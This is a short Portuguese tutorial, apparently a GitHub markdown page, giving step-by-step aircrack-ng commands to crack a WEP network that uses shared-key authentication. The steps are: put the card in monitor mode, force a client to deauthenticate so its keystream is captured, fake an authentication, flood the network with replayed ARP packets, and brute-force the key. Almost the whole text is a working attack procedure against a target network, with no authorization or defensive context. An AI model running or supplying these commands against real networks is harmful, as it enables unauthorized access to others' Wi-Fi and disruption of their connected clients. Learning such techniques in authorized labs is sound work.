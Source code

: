 ## Atacando WEP SKA

#### 1° passo:

Colocar a placa em monitor mode

 ``` airmon-ng start <interface> ```

#### 2° passo:

Sniffar as redes ao redor e identificar o alvo

 ``` airodump-ng <interface> ```


#### 3° passo:

Focar o sniffing na rede alvo para capturar o trafego...

 ``` airodump-ng --bssid BSSID --channel CHANNEL <interface> -w CAPNAME ```


#### 4° passo:

Capturar a Key Stream. Para isso podemos esperar um client se  desautenticar e autenticar novamente ou podemos forçar um client se desautenticar...

 ``` aireplay-ng -0 3 -a BSSIDAP -c BSSIDCLIENT <inetrface> ```
 
* Se o deauth for bem sucedido aparecera um arquivo .xor com a key stream...


#### 5° passo:

Efetuar uma Fake Authentication com o arquivo .xor

 ``` aireplay-ng -1 0 -a BSSIDAP -y arquivo.xor <interface> ```
 

#### 6° passo:

Com a Fake Auth feita podemos bombardear o fake client com pacotes ARP e assim gerar muitos iv's

 ``` aireplay-ng -3 -b BSSIDAP -h BSSIDFAKECLIENT <interface> ```
 
* Depois de começar o envio dos pacotes ARP forjados fique de olho no campo #Data que está no terminal do airodump. Este valor precisa ir até a faixa dos 40/50 mil dados, talvez mais (demora um pouco).


#### 7° passo:

Quebrar o WEP por brute force

 ``` aircrack-ng -a 1 arquivo.cap ```
 
